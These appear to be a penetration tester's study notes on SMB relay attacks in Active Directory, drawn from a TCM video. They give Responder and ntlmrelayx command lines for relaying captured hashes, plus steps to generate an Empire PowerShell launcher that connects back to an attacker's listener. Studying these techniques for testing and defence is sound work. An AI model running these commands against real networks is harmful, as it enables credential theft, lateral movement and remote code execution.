 # SMB Relaying
Tags: #activedirectory #privesc 
Related to:
See also:
Previous:

## Links
Topic: SMB Relay and Empire
Author: TCM
Link: https://www.youtube.com/watch?v=b31KbDb-5DA

## Notes
### SMB Relaying
 A way to take a hash of a user and use it to authenticate on other machines (lateral movement)
 
 Requires SMB signing be disabled/not required
 - Technique relies on spoofing
 - SMB signing is disabled by default
 
 
 ### Procedure
 Run responder (or inveigh) and ntmlrelayx (impacket)
 - Edit Responder.conf
 - Turn off HTTP and SMB
 `python Responder.py -I <interface> -wrf -v`
 --> "Listens for events" in verbose mode
 - Responder sort of acts like a mitm and gives malicious responses to a server that is seeking for help on the network
 
 `python ntlmrelayx.py -tf <target-file> -smb2support`
 - Launches a server that listens for connections. Seems to work automatically along with Responder without explicitly linking the tools together
- `-c`  can be used to run Powershell aftward, e.g. Empire payload
 
 ### Alt Procedure
 Using Empire (post exploitation framework)
 
`listeners`
`use listenerhttp`
`set Port XX`
`set Host XX`
`info` to check your work
`execute`
`back`
`usestager multi/launcher`
`set Listener http`
`generate`  --> makes powershell
Run ntlmrelayx using the powershell exploit
An agent should launch.
`interact`
`info`